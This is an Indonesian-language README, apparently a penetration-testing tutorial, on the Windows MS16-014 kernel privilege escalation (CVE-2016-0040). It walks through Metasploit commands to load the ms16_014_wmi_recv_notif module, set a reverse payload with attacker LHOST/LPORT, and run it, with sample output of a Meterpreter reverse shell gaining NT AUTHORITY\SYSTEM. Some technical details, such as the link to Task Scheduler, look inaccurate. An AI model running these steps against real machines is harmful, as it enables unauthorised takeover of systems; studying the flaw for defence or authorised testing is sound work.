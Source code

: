 # MS16-014

## A. Apa itu MS16-014?

[MS16-014](https://learn.microsoft.com/en-us/security-updates/securitybulletins/2016/ms16-014) adalah kerentanan Local Privilege Escalation (LPE) pada Windows Kernel, khususnya terkait dengan manajemen Windows Task Scheduler dan komponen internal `win32k.sys`.

Kerentanan ini memungkinkan pengguna lokal dengan hak terbatas untuk menjalankan kode arbitrer di level kernel, dan mendapatkan hak akses `SYSTEM`. Ini dilakukan dengan cara mengeksploitasi kesalahan dalam validasi objek kernel dan manipulasi struktur internal.

## B. Detail Teknis
- CVE ID: `CVE-2016-0040`
- Buletin: `MS16-014`
- Tanggal Rilis: `9 Februari 2016`
- Tipe: Local Privilege Escalation (LPE)
- Komponen: `win32k.sys`
- Platform: `Windows`
 -Arsitektur: `x86` dan `x64`
- Skor CVSS: `7.5` (Tinggi)
  
## C. Sistem yang Rentan

Untuk melihat semua sistem yang rentan terhadap `MS16-014`, anda bisa melihatnya di dokumentasi resmi Microsoft: [https://learn.microsoft.com/en-us/security-updates/securitybulletins/2016/ms16-014#affected-software-and-vulnerability-severity-ratings](https://learn.microsoft.com/en-us/security-updates/securitybulletins/2016/ms16-014#affected-software-and-vulnerability-severity-ratings)

## D. Langkah Penggunaan di Metasploit

1. Dapatkan Akses Awal (User Biasa):

   ```
   msf6 > sessions          # Lihat sesi yang ada
   msf6 > sessions -i 1     # Masuk ke sesi dengan ID 1
   msf6 > getuid            # Melihat user saat ini
   msf6 > sysinfo           # Informasi sistem target
   ```

2. Keluar dari Sesi Meterpreter:
   
   ```
   msf6 > background
   ```

3. Gunakan Modul Exploit MS16-014:

   ```
   msf6 > use exploit/windows/local/ms16_014_wmi_recv_notif
   ```

4. Setting Parameter Penting:

   ```
   msf6 > set SESSION <ID>
   msf6 > set PAYLOAD <PAYLOAD>
   msf6 > set LHOST <IP_ATTACKER>
   msf6 > set LPORT <PORT_LISTENER>
   msf6 > set TARGET <ID>
   msf6 > set VERBOSE true
   ```

   > Untuk ID target bisa dilihat dengan:

   ```
   msf6 > show targets
   ```

5. Jalankan Exploit:

   ```
   msf6 > exploit
   ```

   Jika hasil output-nya seperti ini:

   ```
   [*] Started reverse TCP handler on 192.168.1.42:4444 
   [*] OS Version: Windows 7 Service Pack 1
   [*] Reflectively injecting the exploit DLL and running it...
   [*] Launching msiexec to host the DLL...
   [+] Process 1276 launched.
   [*] Reflectively injecting the DLL into 1276...
   [+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
   [*] Sending stage (203846 bytes) to 192.168.1.50
   [*] Meterpreter session 20 opened (192.168.1.42:4444 -> 192.168.1.50:49179) at 2025-05-14 17:34:54 +0700

   meterpreter > 
   ```
   
   Itu artinya kita sudah mendapatkan akses tertinggi dari sistem. Untuk mengeceknya, ketikkan perintah berikut:

   ```
   meterpreter > getuid 
   ```

   Hasil output-nya seperti ini:

   ```
   meterpreter > getuid 
   Server username: NT AUTHORITY\SYSTEM
   meterpreter > 
   ```

   > Keterangan: `NT AUTHORITY\SYSTEM` adalah akun tertinggi di sistem Windows itu setara dengan `root` pada sistem Linux.
